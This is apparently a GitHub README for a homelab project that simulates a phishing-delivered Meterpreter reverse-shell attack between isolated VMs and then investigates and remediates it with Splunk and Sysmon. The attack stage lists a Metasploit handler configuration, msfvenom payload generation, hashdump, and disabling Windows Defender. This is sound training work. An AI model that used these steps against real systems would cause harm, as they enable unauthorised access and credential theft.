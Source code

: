 
---

# Homelab: Attack and Defence Simulation Project

### Objective
The primary objective of this project is to simulate a cyber-attack, investigate the attack using Splunk, and remediate it. This documentation covers the setup, configuration, attack simulation, investigation, and remediation steps, providing a thorough demonstration of attack and defence skills in a controlled lab environment.

---

## Project Overview

1. **Stage 1:** Lab Setup
2. **Stage 2:** Machine Configuration
3. **Stage 3:** Attack Simulation
4. **Stage 4:** Investigation and Remediation
5. **Conclusion**

---

## Stage 1: Lab Setup

### 1. Environment Setup

- **Install VirtualBox** and create two virtual machines.

    ![Screenshot of Windows 10 VM setup](./assets/virtualbox.png)
- **Machine 1 (Victim):** Windows 10  
    ![Screenshot of Windows 10 VM setup](./assets/win10.png)
- **Machine 2 (Attacker):** Kali Linux  
    ![Screenshot of Kali Linux VM setup](./assets/kali.png)

### 2. Network Configuration

- **Internal Network Isolation:** Configure both machines to communicate only through an internal network.
![Network Configuration Screenshot](./assets/network-topology.png)
- Go to **Settings > Network > Select Internal Network**  
![Network Configuration Screenshot](./assets/internal-network.png)
- **Static IP Assignment:** Assign static IPv4 addresses to each machine for consistent communication.

    - Windows 10 (Victim): 192.168.1.10
    ![kali ip](./assets/win10ip.png)
    - Kali Linux (Attacker): 192.168.1.20  
    ![Screenshot showing IP assignment on both machines](./assets/kaliip.png)

---

## Stage 2: Machine Configuration

### Machine 1: Victim (Windows 10)

1. **Install Splunk Enterprise:**
   - Download and install Splunk enterprise to monitor system activities.
   - Navigate to `http://127.0.0.1:8000`for using splunk and login to your account.
   ![splunk login](./assets/splunk-login.png)
   ![splunk login](./assets/splunk-home.png)

2. **Install Sysmon Add-on for Splunk:**
   - Download and install the Sysmon add-on for advanced monitoring.
   ![Sysmon addon](./assets/sysmon-addon.png)
   - Copy `Splunk_TA_microsoft_sysmon` add-on directory from `Splunk/etc/app` to `Splunk/etc/deployment-apps`.
   ![Sysmon addon app directory](./assets/addonfile.png)

3. **Configure Sysmon:**
Download and configure Sysmon with an XML configuration file for detailed process monitoring.
   - [Sysmon download link](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
   - [Sysmon configuration file download link](https://github.com/olafhartong/sysmon-modular) 
   
         ./sysmon64 -i ./config.xml -accepteula


4. **Deactivate Windows Defender:**
   - Temporarily disable Windows Defender to avoid interference with the simulation.

### Machine 2: Attacker (Kali Linux)

1. **Network Connectivity Check:**
   - Use the `ping` command to confirm connectivity with the victim machine.  
     ![Screenshot of ping command]()

2. **Reconnaissance Using Nmap:**
   - Use `nmap` to scan the victim machine for open ports, identifying potential vulnerabilities.  
     ![Nmap scan results]()

3. **Malware Creation:**
   - Generate a malware executable with `msfvenom` using the `windows/meterpreter/reverse_tcp` payload.

4. **Phishing Email:**
   - Craft a phishing email with the malware attachment and send it to the victim.  
     ![Screenshot of phishing email]()

---

## Stage 3: Attack Simulation

### Step 1: Launch `msfconsole` on Kali Linux (Attacker Machine)

1. Launch `msfconsole` and configure it to listen for an incoming connection:
   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <Your_IP>
   set LPORT 4444
   exploit
   ```

### Step 2: Execute the Malware on Windows 10 (Victim Machine)

- Open the malware attachment from the phishing email on the victim machine to initiate a reverse shell connection.

### Step 3: Access the Victim Machine

- Once the malware is executed, access the victim machine via the Meterpreter shell.
  - Execute commands such as `sysinfo`, `hashdump`, and other shell commands to observe system data and activity.

---

## Stage 4: Investigation and Remediation

### 1. Investigate with Splunk on Windows 10

- Analyze Sysmon logs in Splunk to trace malware behavior, focusing on:
  - **Process Creation**
  - **Network Connections**
  - **Registry Modifications**
- Document each log entry to map the attack sequence.  
  ![Relevant Splunk log screenshot]()

### 2. Investigation Findings

- Document findings, including:
  - How the attack was executed
  - Impact on the system
  - Vulnerabilities that were exploited

### 3. Malware Removal and Remediation

- Terminate the malicious process.
  - ![Task Manager Screenshot displaying malware process]()
- Delete the malware executable.
- Check for persistent registry entries or scheduled tasks to ensure complete threat removal.

---

## Conclusion

This homelab simulation demonstrated a cyber-attack process from setup through remediation, providing a hands-on experience in both offensive and defensive cybersecurity skills. By leveraging tools like Splunk and Sysmon, the investigation traced the attack's behavior, enabling a thorough remediation process to secure the system.

---

